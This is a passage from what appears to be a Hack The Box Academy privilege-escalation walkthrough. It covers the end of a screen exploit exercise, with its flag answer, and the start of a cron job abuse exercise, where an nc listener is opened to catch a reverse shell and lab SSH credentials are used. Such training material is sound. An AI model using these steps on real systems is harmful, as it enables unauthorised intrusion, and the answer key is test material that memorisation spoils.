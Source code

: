 At last, students need to print out the contents of the flag file "flag.txt" located at `/root/screen_exploit`:

Code: shell

```shell
cat /root/screen_exploit/flag.txt
```

```
# cat /root/screen_exploit/flag.txt

91927dad55ffd22825660da88f2f92e0
```

Answer: `91927dad55ffd22825660da88f2f92e0`

# Cron Job Abuse

## Question 1

### "Connect to the target system and escalate privileges by abusing the misconfigured cron job. Submit the contents of the flag.txt file in the /root/cron\_abuse directory."

Students first need to start an `nc` listener on Pwnbox/`PMVPN`:

Code: shell

```shell
sudo nc -nvlp 443
```

```
┌─[us-academy-1]─[10.10.14.25]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ sudo nc -nvlp 443

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
```

Students then need to connect to the spawned target machine with `STMIP` using `SSH` and the credentials `htb-student:Academy_LLPE!`:

Code: shell

```shell
ssh htb-student@STMIP
```

```
┌─[us-academy-1]─[10.10.14.118]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ ssh htb-student@10.129.2.210

The authenticity of host '10.129.2.210 (10.129.2.210)' can't be established.
ECDSA key fingerprint is SHA256:jqHwbeBBQLd/z1BFRM732tTqQbhKGni0KhrGMszsiVM.
Are you sure you want to continue connecting (yes/no/[fingerprint])? Yes
Warning: Permanently added '10.129.2.210' (ECDSA) to the list of known hosts.
htb-student@10.129.2.210's password: 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-116-generic x86_64)

<SNIP>

htb-student@NIX02:~$
```
